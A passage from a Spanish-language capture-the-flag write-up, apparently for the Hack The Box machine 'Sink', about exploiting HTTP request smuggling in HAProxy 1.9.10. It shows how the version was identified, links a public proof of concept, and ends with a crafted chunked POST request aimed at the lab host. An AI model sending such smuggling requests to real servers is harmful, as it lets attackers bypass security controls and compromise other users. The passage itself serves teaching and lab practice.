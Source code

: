Pero **¿para qué nos sirve esto?** Como explica [portswigger](https://portswigger.net/web-security/request-smuggling) nos puede permitir <u>bypassear controles de seguridad</u>, <u>obtener acceso a información sensible</u> yyyy <u>comprometer otros usuarios que estén en la aplicación</u>.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313http_request_smuggling.svg" style="width: 100%;"/>

> Tomada de [What is HTTP request smuggling? - portswigger](https://portswigger.net/web-security/request-smuggling).

...

Ahora sí, sigamos y probemos si nuestra versión es vulnerable a `HTTP Request Smuggling`...

Siguiendo algunos ejemplos de referencias anteriores y de [este artículo](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142), logramos obtener la versión de `HAProxy` que esta usando el servidor:

* [The Powerfull HTTP Request Smuggling - medium.com/ricardoiramar](https://medium.com/@ricardoiramar/the-powerful-http-request-smuggling-af208fafa142).

Si enviamos la siguiente petición:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_versionHAProxy.png" style="width: 100%;"/>

* Enviamos la data en formato `chunked` (separada por `\n` (newline)).
* El total de la traza serian `9` caracteres (`note=hola`).
* Con `0` le indicamos el final de la data en formato `chunk`.

Obtenemos la versión concreta de **HAProxy**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_res_versionHAProxy.png" style="width: 100%;"/>

> HAProxy Version 1.9.10

Bueno, pues podemos enfocarnos un poco más. Quizás esta sea la ruta adecuada para la explotación. Sigamos validando si podemos explotar la web mediante el smuggling... 

En las referencias del CVE, encontramos este **PoC**:

* [HAProxy HTTP Request Smuggling](https://nathandavison.com/blog/haproxy-http-request-smuggling).

Dándole unas vueltas nos indica algo necesario para la correcta explotación:

> The backend must also support HTTP <u>keep-alive</u>.

Así que debemos cambiar el **header** `Connection: close` a `Connection: keep-alive`.

Démosle a la locura, modifiquemos la petición incrustando otra solicitud a ver que recibimos:

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 259                                               <!-- original -->
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding: chunked

9
note=hola
0

```